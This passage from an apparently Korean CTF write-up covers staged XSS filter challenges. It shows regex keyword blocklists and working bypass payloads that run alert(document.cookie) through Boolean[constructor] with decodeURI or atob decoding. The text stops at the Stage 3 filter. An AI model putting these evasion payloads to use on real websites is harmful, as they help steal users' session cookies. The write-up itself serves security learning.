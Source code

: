 **al\u0065rt(docum\u0065nt.cookie)**를 사용했다.  

### Stage 2  
```javascript
function XSSFilter(data){
  if(/alert|window|document|eval|cookie|this|self|parent|top|opener|function|constructor|[\-+\\<>{}=]/i.test(data)){
    return false;
  }
  return true;
}
```

Stage 1에서 우회할 때 흔히 사용하는 대체어를 거의 필터링 한다.  

Stage 2는 너무 어려워서 답을 먼저 봤다.  

<img src="3.jpg">  

```javascript
// %63%6F%6E%73%74%72%75%63%74%6F%72 -> constructor
// %61%6C%65%72%74%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%29 -> alert(document.cookie)
Boolean[decodeURI('%63%6F%6E%73%74%72%75%63%74%6F%72')](decodeURI('%61%6C%65%72%74%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%29'))();
Boolean[atob('Y29uc3RydWN0b3I')](atob('YWxlcnQoZG9jdW1lbnQuY29va2llKQ'))();
```
위의 2가지 방식이 있다.  
먼저 constructor는 **자바스크립트 객체의 생성자 함수**를 나타내는 프로퍼티이다.  
여기서 **Boolean[constructor].메소드** 를 통해 특정 메소드를 실행할 수 있다고 한다.  
물론 보안 상의 문제로 사용은 비권장한다.  
즉, 첫 번째는 **decodeURI** 를 통해 **퍼센트 인코딩** 을 디코딩한다. 두 번째는 **atob**를 통해 **Base64 인코딩**을 디코딩한다.  
인코딩/디코딩의 방식 차이이다.  

### Stage 3  
```javascript
function XSSFilter(data){
  if(/[()"'`]/.test(data)){
    return false;
  }
  return true;
}
```
